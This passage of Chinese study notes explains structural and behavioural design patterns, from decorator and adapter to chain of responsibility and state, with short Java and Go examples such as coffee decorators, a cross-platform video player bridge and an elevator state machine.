| **代理类来源** | 手动编写                 | 自动生成                   |
| **灵活性**     | 低（每个类需单独代理）   | 高（通用代理处理多个类）   |
| **代码量**     | 多（需要为每个类写代理） | 少（一个处理器代理多个类） |
| **维护性**     | 差（修改需重新编译）     | 好（配置即修改）           |
| **性能**       | 稍好（直接调用）         | 稍差（反射调用）           |

#### 2. 装饰器模式 (Decorator Pattern)

> 指在不改变现有对象结构的情况下，动态地给该对象增加一些职责（即增加其额外功能）的模式。

装饰（Decorator）模式中的角色：

* 抽象构件（Component）角色 ：定义一个抽象接口以规范准备接收附加责任的对象。
* 具体构件（Concrete  Component）角色 ：实现抽象构件，通过装饰角色为其添加一些职责。
* 抽象装饰（Decorator）角色 ： 继承或实现抽象构件，并包含具体构件的实例（聚合），可以通过其子类扩展具体构件的功能。
* 具体装饰（ConcreteDecorator）角色 ：实现抽象装饰的相关方法，并给具体构件对象添加附加的责任。



##### 2.1 经典实现

```go
// 组件接口
interface Coffee {
    String getDescription();
    double cost();
}

// 具体组件
class SimpleCoffee implements Coffee {
    public String getDescription() { return "简单咖啡"; }
    public double cost() { return 5.0; }
}

// 装饰器抽象类
abstract class CoffeeDecorator implements Coffee {
    protected Coffee decoratedCoffee;
    
    public CoffeeDecorator(Coffee coffee) {
        this.decoratedCoffee = coffee;
    }
    
    public String getDescription() {
        return decoratedCoffee.getDescription();
    }
    
    public double cost() {
        return decoratedCoffee.cost();
    }
}

// 具体装饰器
class MilkDecorator extends CoffeeDecorator {
    public MilkDecorator(Coffee coffee) {
        super(coffee);
    }
    
    public String getDescription() {
        return decoratedCoffee.getDescription() + ", 牛奶";
    }
    
    public double cost() {
        return decoratedCoffee.cost() + 2.0;
    }
}

class SugarDecorator extends CoffeeDecorator {
    public SugarDecorator(Coffee coffee) {
        super(coffee);
    }
    
    public String getDescription() {
        return decoratedCoffee.getDescription() + ", 糖";
    }
    
    public double cost() {
        return decoratedCoffee.cost() + 1.0;
    }
}

// 使用
Coffee coffee = new SimpleCoffee();
coffee = new MilkDecorator(coffee);
coffee = new SugarDecorator(coffee);

System.out.println(coffee.getDescription() + " ￥" + coffee.cost());
// 输出: 简单咖啡, 牛奶, 糖 ￥8.0
```


##### 2.2 使用场景

* 当不能采用继承的方式对系统进行扩充或者采用继承不利于系统扩展和维护时。

  不能采用继承的情况主要有两类：

  * 第一类是系统中存在大量独立的扩展，为支持每一种组合将产生大量的子类，使得子类数目呈爆炸性增长；
  * 第二类是因为类定义不能继承（如final类）

* 在不影响其他对象的情况下，以动态、透明的方式给单个对象添加职责。

* 当对象的功能要求可以动态地添加，也可以再动态地撤销时。


IO流中的包装类使用到了装饰者模式。BufferedInputStream，BufferedOutputStream，BufferedReader，BufferedWriter。

我们以BufferedWriter举例来说明，先看看如何使用BufferedWriter

```java
public class Demo {
    public static void main(String[] args) throws Exception{
        //创建BufferedWriter对象
        //创建FileWriter对象
        FileWriter fw = new FileWriter("C:\\Users\\Think\\Desktop\\a.txt");
        BufferedWriter bw = new BufferedWriter(fw);

        //写数据
        bw.write("hello Buffered");

        bw.close();
    }
}
```


##### 2.3 代理和装饰者的区别

静态代理和装饰者模式的区别：

* 相同点：
  * 都要实现与目标类相同的业务接口
  * 在两个类中都要声明目标对象
  * 都可以在不修改目标类的前提下增强目标方法
* 不同点：
  * 目的不同
    装饰者是为了增强目标对象
    **静态代理是为了保护和隐藏目标对象**
  * 获取目标对象构建的地方不同
    装饰者是由外界传递进来，可以通过构造方法传递
    静态代理是在代理类内部创建，以此来隐藏目标对象


#### 3. 适配器模式 (Adapter Pattern)

> 被适配者-- 适配器--目标接口

适配器模式（Adapter）包含以下主要角色：

* 目标（Target）接口：当前系统业务所期待的接口，它可以是抽象类或接口。
* 适配者（Adaptee）类：它是被访问和适配的现存组件库中的组件接口。
* 适配器（Adapter）类：它是一个转换器，通过继承或引用适配者的对象，把适配者接口转换成目标接口，让客户按目标接口的格式访问适配者。


##### 3.1 类适配器（继承 被适配者）

```java
// 目标接口
interface MediaPlayer {
    void play(String audioType, String fileName);
}

// 被适配者
class AdvancedMediaPlayer {
    void playVlc(String fileName) {
        System.out.println("播放vlc文件: " + fileName);
    }
    
    void playMp4(String fileName) {
        System.out.println("播放mp4文件: " + fileName);
    }
}

// 适配器
class MediaAdapter extends AdvancedMediaPlayer implements MediaPlayer {
    public void play(String audioType, String fileName) {
        if (audioType.equalsIgnoreCase("vlc")) {
            playVlc(fileName);
        } else if (audioType.equalsIgnoreCase("mp4")) {
            playMp4(fileName);
        }
    }
}
```

##### 3.2 对象适配器（组合被适配者）

```java
class MediaAdapter implements MediaPlayer {
    private AdvancedMediaPlayer advancedMusicPlayer;
    
    public MediaAdapter(String audioType) {
        if (audioType.equalsIgnoreCase("vlc")) {
            advancedMusicPlayer = new VlcPlayer();
        } else if (audioType.equalsIgnoreCase("mp4")) {
            advancedMusicPlayer = new Mp4Player();
        }
    }
    
    public void play(String audioType, String fileName) {
        if (audioType.equalsIgnoreCase("vlc")) {
            advancedMusicPlayer.playVlc(fileName);
        } else if (audioType.equalsIgnoreCase("mp4")) {
            advancedMusicPlayer.playMp4(fileName);
        }
    }
```


##### 3.3 应用场景

* 以前开发的系统存在满足新系统功能需求的类，但其接口同新系统的接口不一致。
* 使用第三方提供的组件，但组件接口定义和自己要求的接口定义不同。


InputStreamReader做了InputStream字节流类到Reader字符流之间的转换：

```java
// 将字节流适配为字符流
public class IoAdapterExample {
    public static void main(String[] args) throws IOException {
        // 字节流
        FileInputStream fis = new FileInputStream("file.txt");
        
        // 适配器：字节流 → 字符流
        InputStreamReader reader = new InputStreamReader(fis, "UTF-8");
        
        // 现在可以按字符方式读取
        BufferedReader br = new BufferedReader(reader);
        String line = br.readLine();
        
        br.close();
    }
}
```

InputStreamReader继承自java.io包中的**Reader**(抽象类），如：

```java
// InputStreamReader 源码片段 （对象适配器）
public class InputStreamReader extends Reader {
    private final StreamDecoder sd;
    
    public InputStreamReader(InputStream in) {
        super(in);
        try {
            sd = StreamDecoder.forInputStreamReader(in, this, (String)null);
        } catch (UnsupportedEncodingException e) {
            throw new Error(e);
        }
    }
    
    // 适配：将Reader的read方法适配到InputStream
    public int read() throws IOException {
        return sd.read();
    }
}
```


#### 4.桥接模式（Bridge）

> 将抽象与实现分离，使它们可以独立变化。它是用组合关系代替继承关系来实现，从而降低了抽象和实现这两个可变维度的耦合度。


##### 概述

桥接（Bridge）模式包含以下主要角色：

* 抽象化（Abstraction）角色 ：定义抽象类，并包含一个对实现化对象的引用。
* 扩展抽象化（Refined  Abstraction）角色 ：是抽象化角色的子类，实现父类中的业务方法，并通过组合关系调用实现化角色中的业务方法。
* 实现化（Implementor）角色 ：定义实现化角色的接口，供扩展抽象化角色调用。
* 具体实现化（Concrete Implementor）角色 ：给出实现化角色接口的具体实现。

现在有一个需求，需要创建不同的图形，并且每个图形都有可能会有不同的颜色。我们可以利用继承的方式来设计类的关系：


我们可以发现有很多的类，假如我们再增加一个形状或再增加一种颜色，就需要创建更多的类。

试想，在一个有多种可能会变化的维度的系统中，用继承方式会造成类爆炸，扩展起来不灵活。每次在一个维度上新增一个具体实现都要增加多个子类。为了更加灵活的设计系统，我们此时可以考虑使用桥接模式。==》防止类爆炸

| 方式     | 类数量     | 扩展性 | 维护性       |
| :------- | :--------- | :----- | :----------- |
| **继承** | 乘积级增长 | 差     | 差（类爆炸） |
| **桥接** | 加法级增长 | 好     | 好           |


##### 示例

【例】视频播放器

需要开发一个**跨平台视频播放器**，可以在不同操作系统平台（如Windows、Mac、Linux等）上播放多种格式的视频文件，常见的视频格式包括RMVB、AVI、WMV等。该播放器包含了两个维度，适合使用桥接模式。


代码如下：

```java
//视频文件
public interface VideoFile {
    void decode(String fileName);
}

//avi文件
public class AVIFile implements VideoFile {
    public void decode(String fileName) {
        System.out.println("avi视频文件："+ fileName);
    }
}

//rmvb文件
public class REVBBFile implements VideoFile {

    public void decode(String fileName) {
        System.out.println("rmvb文件：" + fileName);
    }
}

//操作系统版本
public abstract class OperatingSystem {

    protected VideoFile videoFile;

    public OperatingSystem(VideoFile videoFile) {
        this.videoFile = videoFile;
    }

    public abstract void play(String fileName);
}

//Windows版本
public class Windows extends OperatingSystem {

    public Windows(VideoFile videoFile) {
        super(videoFile);
    }

    public void play(String fileName) {
        videoFile.decode(fileName);
    }
}

//mac版本
public class Mac extends OperatingSystem {

    public Mac(VideoFile videoFile) {
        super(videoFile);
    }

    public void play(String fileName) {
		videoFile.decode(fileName);
    }
}

//测试类
public class Client {
    public static void main(String[] args) {
        OperatingSystem os = new Windows(new AVIFile());
        os.play("战狼3");
    }
}
```

**好处：**

* 桥接模式提高了系统的可扩充性，在两个变化维度中任意扩展一个维度，都不需要修改原有系统。

  如：如果现在还有一种视频文件类型wmv，我们只需要再定义一个类实现VideoFile接口即可，其他类不需要发生变化。

* 实现细节对客户透明（保密）


##### go示例：日志输出

```go
package main

import "fmt"

// Implementor: 日志输出接口
type LogOutput interface {
    Output(level, message string)
}

// ConcreteImplementor: 文件输出
type FileOutput struct {
    filename string
}

func (f *FileOutput) Output(level, message string) {
    fmt.Printf("写入文件[%s]: %s - %s\n", f.filename, level, message)
}

// ConcreteImplementor: 控制台输出
type ConsoleOutput struct{}

func (c *ConsoleOutput) Output(level, message string) {
    fmt.Printf("控制台输出: %s - %s\n", level, message)
}

// ConcreteImplementor: 网络输出
type NetworkOutput struct {
    endpoint string
}

func (n *NetworkOutput) Output(level, message string) {
    fmt.Printf("发送到[%s]: %s - %s\n", n.endpoint, level, message)
}

// Abstraction: 日志记录器抽象
type Logger interface {
    Debug(message string)
    Info(message string)
    Error(message string)
}

// RefinedAbstraction: 具体日志记录器
type SimpleLogger struct {
    output LogOutput
}

func NewSimpleLogger(output LogOutput) *SimpleLogger {
    return &SimpleLogger{output: output}
}

func (s *SimpleLogger) Debug(message string) {
    s.output.Output("DEBUG", message)
}

func (s *SimpleLogger) Info(message string) {
    s.output.Output("INFO", message)
}

func (s *SimpleLogger) Error(message string) {
    s.output.Output("ERROR", message)
}

// 使用桥接模式
func main() {
    // 创建不同的输出实现
    fileOutput := &FileOutput{filename: "app.log"}
    consoleOutput := &ConsoleOutput{}
    networkOutput := &NetworkOutput{endpoint: "logserver:514"}
    
    // 相同的日志接口，不同的输出实现
    loggers := []Logger{
        NewSimpleLogger(fileOutput),
        NewSimpleLogger(consoleOutput),
        NewSimpleLogger(networkOutput),
    }
    
    // 统一使用
    for i, logger := range loggers {
        logger.Info(fmt.Sprintf("日志器 %d 测试消息", i))
    }
    
    // 动态切换输出目标
    logger := NewSimpleLogger(consoleOutput)
    logger.Info("初始使用控制台")
    
    // 运行时切换为文件输出
    logger = NewSimpleLogger(fileOutput)
    logger.Info("现在输出到文件")
}
```


#### 5.外观模式（Facade）

> 又名门面模式，是一种通过为多个复杂的子系统提供一个一致的接口，而使这些子系统更加容易被访问的模式。


外观（Facade）模式包含以下主要角色：

* 外观（Facade）角色：为多个子系统对外提供一个共同的接口。
* 子系统（Sub System）角色：实现系统的部分功能，客户可以通过外观角色访问它。

【例】智能家电控制

小明的爷爷已经60岁了，一个人在家生活：每次都需要打开灯、打开电视、打开空调；睡觉时关闭灯、关闭电视、关闭空调；操作起来都比较麻烦。所以小明给爷爷买了智能音箱，可以通过语音直接控制这些智能家电的开启和关闭。


代码如下：

```java
//灯类
public class Light {
    public void on() {
        System.out.println("打开了灯....");
    }

    public void off() {
        System.out.println("关闭了灯....");
    }
}

//电视类
public class TV {
    public void on() {
        System.out.println("打开了电视....");
    }

    public void off() {
        System.out.println("关闭了电视....");
    }
}

//控制类
public class AirCondition {
    public void on() {
        System.out.println("打开了空调....");
    }

    public void off() {
        System.out.println("关闭了空调....");
    }
}

//智能音箱
public class SmartAppliancesFacade {

    private Light light;
    private TV tv;
    private AirCondition airCondition;

    public SmartAppliancesFacade() {
        light = new Light();
        tv = new TV();
        airCondition = new AirCondition();
    }

    public void say(String message) {
        if(message.contains("打开")) {
            on();
        } else if(message.contains("关闭")) {
            off();
        } else {
            System.out.println("我还听不懂你说的！！！");
        }
    }

    //起床后一键开电器
    private void on() {
        System.out.println("起床了");
        light.on();
        tv.on();
        airCondition.on();
    }

    //睡觉一键关电器
    private void off() {
        System.out.println("睡觉了");
        light.off();
        tv.off();
        airCondition.off();
    }
}

//测试类
public class Client {
    public static void main(String[] args) {
        //创建外观对象
        SmartAppliancesFacade facade = new SmartAppliancesFacade();
        //客户端直接与外观对象进行交互
        facade.say("打开家电");
        facade.say("关闭家电");
    }
}
```

- 消息中间件也是外观模式

**好处：**

* 降低了子系统与客户端之间的耦合度，使得子系统的变化不会影响调用它的客户类。
* 对客户屏蔽了子系统组件，减少了客户处理的对象数目，并使得子系统使用起来更加容易。

**缺点：**

* 不符合开闭原则，修改很麻烦


#### 6.组合模式

> 又名部分整体模式，是用于把一组相似的对象当作一个单一的对象。
>
> 组合模式依据树形结构来组合对象，用来表示部分以及整体层次。

组合模式主要包含三种角色：

* 抽象根节点（Component）：定义系统各层次对象的共有方法和属性，可以预先定义一些默认行为和属性。
* 树枝节点（Composite）：定义树枝节点的行为，存储子节点，组合树枝节点和叶子节点形成一个树形结构。
* 叶子节点（Leaf）：叶子节点对象，其下再无分支，是系统层次遍历的最小单位。


要实现该案例，我们先画出类图：


实现：

树枝节点Menu和叶节点都继承自抽象根节点(MenuComponent),然后Menu聚合MenuComponent List表示下面还有分支。


#### 7.享元模式

> 运用共享技术来有效地支持大量细粒度对象的复用。它通过共享已经存在的对象来大幅度减少需要创建的对象数量、避免大量相似对象的开销，从而提高系统资源的利用率。

享元（Flyweight ）模式中存在以下两种状态：

1. 内部状态，即不会随着环境的改变而改变的可共享部分。
2. 外部状态，指随环境改变而改变的不可以共享的部分。享元模式的实现要领就是区分应用中的这两种状态，并将外部状态外部化。

享元模式的主要有以下角色：

* 抽象享元角色（Flyweight）：通常是一个接口或抽象类，在抽象享元类中声明了具体享元类公共的方法，这些方法可以向外界提供享元对象的内部数据（内部状态），同时也可以通过这些方法来设置外部数据（外部状态）。
* 具体享元（Concrete Flyweight）角色 ：它实现了抽象享元类，称为享元对象；在具体享元类中为内部状态提供了存储空间。通常我们可以结合单例模式来设计具体享元类，为每一个具体享元类提供唯一的享元对象。
* 非享元（Unsharable Flyweight)角色 ：并不是所有的抽象享元类的子类都需要被共享，不能被共享的子类可设计为非共享具体享元类；当需要一个非共享具体享元类的对象时可以直接通过实例化创建。
* 享元工厂（Flyweight Factory）角色 ：负责创建和管理享元角色。当客户对象请求一个享元对象时，享元工厂检査系统中是否存在符合要求的享元对象，如果存在则提供给客户；如果不存在的话，则创建一个新的享元对象。


【例】俄罗斯方块

下面的图片是众所周知的俄罗斯方块中的一个个方块，如果在俄罗斯方块这个游戏中，每个不同的方块都是一个实例对象，这些对象就要占用很多的内存空间，下面利用享元模式进行实现。


**先来看类图：**


### 设计模式--行为型模式

#### 1. 模板方法模式 (Template Method Pattern)

**定义：**

定义一个操作中的算法骨架，而将算法的一些**步骤延迟到子类**中，使得子类可以不改变该算法结构的情况下重定义该算法的某些特定步骤。

**一句话理解：**

 父类提供模板方法指定各个步骤的执行顺序等，而步骤的具体实现延迟到子类中实现，如InputStream的read()方法定义了读取字节数组方法，而具体读取数组中每个字节的方法由具体子类实现。


模板方法（Template Method）模式包含以下主要角色：

* 抽象类（Abstract Class）：负责给出一个算法的轮廓和骨架。它由一个模板方法和若干个基本方法构成。

  * 模板方法：定义了算法的骨架，按某种顺序调用其包含的基本方法。

  * 基本方法：是实现算法各个步骤的方法，是模板方法的组成部分。基本方法又可以分为三种：

    * 抽象方法(Abstract Method) ：一个抽象方法由抽象类声明、由其具体子类实现。

    * 具体方法(Concrete Method) ：一个具体方法由一个抽象类或具体类声明并实现，其子类可以进行覆盖也可以直接继承。

    * 钩子方法(Hook Method) ：在抽象类中已经实现，包括用于判断的逻辑方法和需要子类重写的空方法两种。

      一般钩子方法是用于判断的逻辑方法，这类方法名一般为isXxx，返回值类型为boolean类型。

* 具体子类（Concrete Class）：实现抽象类中所定义的抽象方法和钩子方法，它们是一个顶级逻辑的组成步骤。


##### 1.1 游戏框架示例

```java
// 抽象类定义模板方法
abstract class Game {
    // 模板方法（final防止子类修改算法结构）
    public final void play() {
        initialize();
        startPlay();
        endPlay();
    }
    
    // 具体方法
    protected void initialize() {
        System.out.println("游戏初始化完成");
    }
    
    // 抽象方法，由子类实现
    protected abstract void startPlay();
    protected abstract void endPlay();
}

// 具体实现
class Cricket extends Game {
    protected void startPlay() {
        System.out.println("板球游戏开始");
    }
    
    protected void endPlay() {
        System.out.println("板球游戏结束");
    }
}

class Football extends Game {
    protected void startPlay() {
        System.out.println("足球游戏开始");
    }
    
    protected void endPlay() {
        System.out.println("足球游戏结束");
    }
}

// 使用
Game game = new Cricket();
game.play(); // 执行模板方法

game = new Football();
game.play();
```


#### 2. 策略模式 (Strategy Pattern)

> **定义：**
>
> ​	该模式定义了一系列算法，并将每个算法封装起来，使它们可以相互替换，且算法的变化不会影响使用算法的客户。策略模式属于对象行为模式，它通过对算法进行封装，把使用算法的责任和算法的实现分割开来，并委派给不同的对象对这些算法进行管理。
>
> **一句话理解：**
>
> 为达到目的有多种可选策略，且策略的选择不会影响最终结果，如为到达目的地可以选择不同的交通方式，这时可以将不同策略抽象成为接口，在实现时再传入具体的策略实现类，从而将算法的责任与实现分开，如JDK中Array.sort()传入的Comparator接口实现类。


策略模式的主要角色如下：

* 抽象策略（Strategy）类：这是一个抽象角色，通常由一个接口或抽象类实现。此角色给出所有的具体策略类所需的接口。
* 具体策略（Concrete Strategy）类：实现了抽象策略定义的接口，提供具体的算法实现或行为。
* 环境（Context）类：持有一个策略类的引用，最终给客户端调用。


##### 2.1 示例

【例】促销活动

一家百货公司在定年度的促销活动。针对不同的节日（春节、中秋节、圣诞节）推出不同的促销活动，由促销员将促销活动展示给客户。类图如下：


```java
public interface Strategy {
    void show();
}

//为春节准备的促销活动A
public class StrategyA implements Strategy {

    public void show() {
        System.out.println("买一送一");
    }
}

//为中秋准备的促销活动B
public class StrategyB implements Strategy {

    public void show() {
        System.out.println("满200元减50元");
    }
}

//为圣诞准备的促销活动C
public class StrategyC implements Strategy {

    public void show() {
        System.out.println("满1000元加一元换购任意200元以下商品");
    }
}


// 定义环境角色（Context）：用于连接上下文，即把促销活动推销给客户，这里可以理解为销售员
public class SalesMan {                        
    //持有抽象策略角色的引用                              
    private Strategy strategy;                 
                                               
    public SalesMan(Strategy strategy) {       
        this.strategy = strategy;              
    }                                          
                                               
    //向客户展示促销活动                                
    public void salesManShow(){                
        strategy.show();                       
    }                                          
}                                              
```


##### 2.2 `Comparator` 中的策略模式

在Arrays类中有一个 `sort()` 方法，如下：

```java
public class Arrays{
    public static <T> void sort(T[] a, Comparator<? super T> c) {
        if (c == null) {
            sort(a);
        } else {
            if (LegacyMergeSort.userRequested)
                legacyMergeSort(a, c);
            else
                TimSort.sort(a, 0, a.length, c, null, 0, 0);
        }
    }
}
```

Arrays就是一个环境角色类，这个sort方法可以传一个新策略让Arrays根据这个策略来进行排序。就比如下面的测试类。

```java
public class demo {
    public static void main(String[] args) {

        Integer[] data = {12, 2, 3, 2, 4, 5, 1};
        // 实现降序排序
        Arrays.sort(data, new Comparator<Integer>() {
            public int compare(Integer o1, Integer o2) {
                return o2 - o1;
            }
        });
        System.out.println(Arrays.toString(data)); //[12, 5, 4, 3, 2, 2, 1]
    }
}
```

这里我们在调用Arrays的sort方法时，第二个参数传递的是Comparator接口的子实现类对象。所以Comparator充当的是抽象策略角色，而具体的子实现类充当的是具体策略角色。


#### 3. 观察者模式 (Observer Pattern)

> 又被称为发布-订阅（Publish/Subscribe）模式，它定义了一种一对多的依赖关系，让多个观察者对象同时监听某一个主题对象。这个主题对象在状态变化时，会通知所有的观察者对象，使他们能够自动更新自己。

##### 3.1 自定义实现

```java
// 主题接口
interface Subject {
    void registerObserver(Observer o);
    void removeObserver(Observer o);
    void notifyObservers();
}

// 观察者接口
interface Observer {
    void update(float temperature, float humidity, float pressure);
}

// 具体主题
class WeatherData implements Subject {
    private List<Observer> observers;
    private float temperature;
    private float humidity;
    private float pressure;
    
    public WeatherData() {
        observers = new ArrayList<>();
    }
    
    public void registerObserver(Observer o) {
        observers.add(o);
    }
    
    public void removeObserver(Observer o) {
        observers.remove(o);
    }
    
    public void notifyObservers() {
        for (Observer observer : observers) {
            observer.update(temperature, humidity, pressure);
        }
    }
    
    public void measurementsChanged() {
        notifyObservers();
    }
    
    public void setMeasurements(float temperature, float humidity, float pressure) {
        this.temperature = temperature;
        this.humidity = humidity;
        this.pressure = pressure;
        measurementsChanged();
    }
}

// 具体观察者
class CurrentConditionsDisplay implements Observer {
    private float temperature;
    private float humidity;
    
    public void update(float temperature, float humidity, float pressure) {
        this.temperature = temperature;
        this.humidity = humidity;
        display();
    }
    
    public void display() {
        System.out.println("当前条件: " + temperature + "°C 和 " + humidity + "% 湿度");
    }
}
```

##### 3.2 Java内置观察者

```java
class WeatherData extends Observable {
    private float temperature;
    private float humidity;
    private float pressure;
    
    public void measurementsChanged() {
        setChanged(); // 标记状态已改变
        notifyObservers(); // 通知观察者
    }
    
    public void setMeasurements(float temperature, float humidity, float pressure) {
        this.temperature = temperature;
        this.humidity = humidity;
        this.pressure = pressure;
        measurementsChanged();
    }
    
    // getter方法...
}

class CurrentConditionsDisplay implements Observer {
    public void update(Observable o, Object arg) {
        if (o instanceof WeatherData) {
            WeatherData weatherData = (WeatherData) o;
            // 更新显示
        }
    }
}
```


#### 4.责任链模式（Chain of Responsibility Pattern）

**定义：**

又名职责链模式，为了避免请求发送者与多个请求处理者耦合在一起，将所有请求的处理者通过前一对象记住其下一个对象的引用而连成一条链；当有请求发生时，可将请求沿着这条链传递，直到有对象处理它为止。

**一句话理解：**

“击鼓传花”，处理者引用下一级处理者，当前处理者先处理，之后提交给下一级处理，如javaWeb中的FilterChain、公司员工请假的逐级审批等。


职责链模式主要包含以下角色:

* 抽象处理者（Handler）角色：定义一个处理请求的接口，包含抽象处理方法和一个后继连接。
* 具体处理者（Concrete Handler）角色：实现抽象处理者的处理方法，判断能否处理本次请求，如果可以处理请求则处理，否则将该请求转给它的后继者。
* 客户类（Client）角色：创建处理链，并向链头的具体处理者对象提交请求，它不关心处理细节和请求的传递过程。


##### 4.1 示例

现需要开发一个请假流程控制系统。请假一天以下的假只需要小组长同意即可；请假1天到3天的假还需要部门经理同意；请求3天到7天还需要总经理同意才行。


```java
//请假条
public class LeaveRequest {
    private String name;//姓名
    private int num;//请假天数
    private String content;//请假内容

    public LeaveRequest(String name, int num, String content) {
        this.name = name;
        this.num = num;
        this.content = content;
    }

    public String getName() {
        return name;
    }

    public int getNum() {
        return num;
    }

    public String getContent() {
        return content;
    }
}

//处理者抽象类
public abstract class Handler {
    protected final static int NUM_ONE = 1;
    protected final static int NUM_THREE = 3;
    protected final static int NUM_SEVEN = 7;

    //该领导处理的请假天数区间
    private int numStart;
    private int numEnd;

    //领导上面还有领导
    private Handler nextHandler;

    //设置请假天数范围 上不封顶
    public Handler(int numStart) {
        this.numStart = numStart;
    }

    //设置请假天数范围
    public Handler(int numStart, int numEnd) {
        this.numStart = numStart;
        this.numEnd = numEnd;
    }

    //设置上级领导
    public void setNextHandler(Handler nextHandler){
        this.nextHandler = nextHandler;
    }

    //提交请假条
    public final void submit(LeaveRequest leave){
        if(0 == this.numStart){
            return;
        }

        //如果请假天数达到该领导者的处理要求
        if(leave.getNum() >= this.numStart){
            this.handleLeave(leave);

            //如果还有上级 并且请假天数超过了当前领导的处理范围
            if(null != this.nextHandler && leave.getNum() > numEnd){
                this.nextHandler.submit(leave);//继续提交
            } else {
                System.out.println("流程结束");
            }
        }
    }

    //各级领导处理请假条方法
    protected abstract void handleLeave(LeaveRequest leave);
}

//小组长
public class GroupLeader extends Handler {
    public GroupLeader() {
        //小组长处理1-3天的请假
        super(Handler.NUM_ONE, Handler.NUM_THREE);
    }

    @Override
    protected void handleLeave(LeaveRequest leave) {
        System.out.println(leave.getName() + "请假" + leave.getNum() + "天," + leave.getContent() + "。");
        System.out.println("小组长审批：同意。");
    }
}

//部门经理
public class Manager extends Handler {
    public Manager() {
        //部门经理处理3-7天的请假
        super(Handler.NUM_THREE, Handler.NUM_SEVEN);
    }

    @Override
    protected void handleLeave(LeaveRequest leave) {
        System.out.println(leave.getName() + "请假" + leave.getNum() + "天," + leave.getContent() + "。");
        System.out.println("部门经理审批：同意。");
    }
}

//总经理
public class GeneralManager extends Handler {
    public GeneralManager() {
        //部门经理处理7天以上的请假
        super(Handler.NUM_SEVEN);
    }

    @Override
    protected void handleLeave(LeaveRequest leave) {
        System.out.println(leave.getName() + "请假" + leave.getNum() + "天," + leave.getContent() + "。");
        System.out.println("总经理审批：同意。");
    }
}

//测试类
public class Client {
    public static void main(String[] args) {
        //请假条来一张
        LeaveRequest leave = new LeaveRequest("小花",5,"身体不适");

        //各位领导
        GroupLeader groupLeader = new GroupLeader();
        Manager manager = new Manager();
        GeneralManager generalManager = new GeneralManager();

        groupLeader.setNextHandler(manager);//小组长的领导是部门经理
        manager.setNextHandler(generalManager);//部门经理的领导是总经理
        //之所以在这里设置上级领导，是因为可以根据实际需求来更改设置，如果实战中上级领导人都是固定的，则可以移到领导实现类中。

        //提交申请
        groupLeader.submit(leave);
    }
}
```


##### 4.2 源码应用 FilterChain

在javaWeb应用开发中，FilterChain是职责链（过滤器）模式的典型应用，以下是Filter的模拟实现分析:




#### 5.状态模式

**定义：**

对有状态的对象，把复杂的“判断逻辑”提取到不同的状态对象中，允许状态对象在其内部状态发生改变时改变其行为。

**一句话理解：**

使用状态对象封装状态和对应的行为，如状态机。


状态模式包含以下主要角色。

* 环境（Context）角色：也称为上下文，它定义了客户程序需要的接口，维护一个当前状态，并将与状态相关的操作委托给当前状态对象来处理。
* 抽象状态（State）角色：定义一个接口，用以封装环境对象中的特定状态所对应的行为。
* 具体状态（Concrete  State）角色：实现抽象状态所对应的行为。


##### 5.1 示例

【例】通过按钮来控制一个电梯的状态，一个电梯有开门状态，关门状态，停止状态，运行状态。每一种状态改变，都有可能要根据其他状态来更新处理。例如，如果电梯门现在处于运行时状态，就不能进行开门操作，而如果电梯门是停止状态，就可以执行开门操作。

```java
//抽象状态类
public abstract class LiftState {
    //定义一个环境角色，也就是封装状态的变化引起的功能变化
    protected Context context;

    public void setContext(Context context) {
        this.context = context;
    }

    //电梯开门动作
    public abstract void open();

    //电梯关门动作
    public abstract void close();

    //电梯运行动作
    public abstract void run();

    //电梯停止动作
    public abstract void stop();
}

//开启状态
public class OpenningState extends LiftState {

    //开启当然可以关闭了，我就想测试一下电梯门开关功能
    @Override
    public void open() {
        System.out.println("电梯门开启...");
    }

    @Override
    public void close() {
        //状态修改
        super.context.setLiftState(Context.closeingState);
        //动作委托为CloseState来执行，也就是委托给了ClosingState子类执行这个动作
        super.context.getLiftState().close();
    }

    //电梯门不能开着就跑，这里什么也不做
    @Override
    public void run() {
        //do nothing
    }

    //开门状态已经是停止的了
    @Override
    public void stop() {
        //do nothing
    }
}

//运行状态
public class RunningState extends LiftState {

    //运行的时候开电梯门？你疯了！电梯不会给你开的
    @Override
    public void open() {
        //do nothing
    }

    //电梯门关闭？这是肯定了
    @Override
    public void close() {//虽然可以关门，但这个动作不归我执行
        //do nothing
    }

    //这是在运行状态下要实现的方法
    @Override
    public void run() {
        System.out.println("电梯正在运行...");
    }

    //这个事绝对是合理的，光运行不停止还有谁敢做这个电梯？！估计只有上帝了
    @Override
    public void stop() {
        //状态切换
        super.context.setLiftState(Context.stoppingState);
        super.context.stop();
    }
}

//停止状态
public class StoppingState extends LiftState {

    //停止状态，开门，那是要的！
    @Override
    public void open() {
        //状态修改
        super.context.setLiftState(Context.openningState);
        //动作委托为CloseState来执行，也就是委托给了ClosingState子类执行这个动作
        super.context.getLiftState().open();
    }

    @Override
    public void close() {//虽然可以关门，但这个动作不归我执行
        //状态修改
        super.context.setLiftState(Context.closeingState);
        //动作委托为CloseState来执行，也就是委托给了ClosingState子类执行这个动作
        super.context.getLiftState().close();
    }

    //停止状态再跑起来，正常的很
    @Override
    public void run() {
        //状态修改
        super.context.setLiftState(Context.runningState);
        //动作委托为CloseState来执行，也就是委托给了ClosingState子类执行这个动作
        super.context.getLiftState().run();
    }

    //停止状态是怎么发生的呢？当然是停止方法执行了
    @Override
    public void stop() {
        System.out.println("电梯停止了...");
    }
}

//关闭状态
public class ClosingState extends LiftState {

    @Override
    //电梯门关闭，这是关闭状态要实现的动作
    public void close() {
        System.out.println("电梯门关闭...");
    }

    //电梯门关了再打开，逗你玩呢，那这个允许呀
    @Override
    public void open() {
        super.context.setLiftState(Context.openningState);
        super.context.open();
    }


    //电梯门关了就跑，这是再正常不过了
    @Override
    public void run() {
        super.context.setLiftState(Context.runningState);
        super.context.run();
    }

    //电梯门关着，我就不按楼层
    @Override
    public void stop() {
        super.context.setLiftState(Context.stoppingState);
        super.context.stop();
    }
}

//环境角色
public class Context {
    //定义出所有的电梯状态
    public final static OpenningState openningState = new OpenningState();//开门状态，这时候电梯只能关闭
    public final static ClosingState closeingState = new ClosingState();//关闭状态，这时候电梯可以运行、停止和开门
    public final static RunningState runningState = new RunningState();//运行状态，这时候电梯只能停止
